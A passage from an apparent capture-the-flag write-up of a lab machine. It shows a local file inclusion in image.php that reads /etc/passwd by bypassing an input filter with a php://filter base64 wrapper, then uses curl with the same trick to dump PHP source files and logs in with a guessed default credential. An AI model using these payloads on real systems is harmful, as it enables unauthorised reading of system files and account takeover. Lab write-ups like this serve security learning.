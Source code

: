 ![ffuf](/assets/img/posts/timing/5.png)

## Exploitation

We check if that "img" parameter is vulnerable to LFI or not by trying to read "/etc/passwd" and it responds to us with "Hacking attempt detected!" which is a sign of there is an input filter used.

```
http://10.10.11.135/image.php?img=/etc/passwd
```

![lfi_test](/assets/img/posts/timing/6.png)

We bypass that filter by the help of php filter wrapper "php://filter" [LFI/RFI Using PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers). Then, we decode that base64 block and we got the "/etc/passwd" file. We notice that there is a user called "aaron".

```bash
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
echo <base64> | base64 -d
```

![passwd_base64](/assets/img/posts/timing/7.png)
![base64_decode](/assets/img/posts/timing/8.png)

We spent awhile trying to figure out where we can find aaron's password and it ended up with why we don't give the default credentials a try. We go back to the login page "login.php", then try to use the default credentials of aaron "aaron:aaron" and it works. As well as, we tried to use the same credentials for ssh login but it failed.

![login](/assets/img/posts/timing/9.png)
![user2](/assets/img/posts/timing/10.png)

We continue our enumeration trying to utilize the LFI vulnerability to read the source code of web files. Starting by checking "login.php" file, we notice that there is a "role" value that assigned to the superglobal variable "$_SESSION" throughout the login process.

```bash
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=login.php | base64 -d
```

![login.php](/assets/img/posts/timing/11.png)

Also as a result of gobuster, we have "upload.php" and "profile.php" files. Let's give them a try to look over their source code. While checking "upload.php" file, at the first line there is "admin_auth_check.php" file included. Checking that file, it checks if the role value not set or not equal to 1 then go back to "index.php" and terminate the session.

```bash
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=upload.php | base64 -d
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php | base64 -d
```
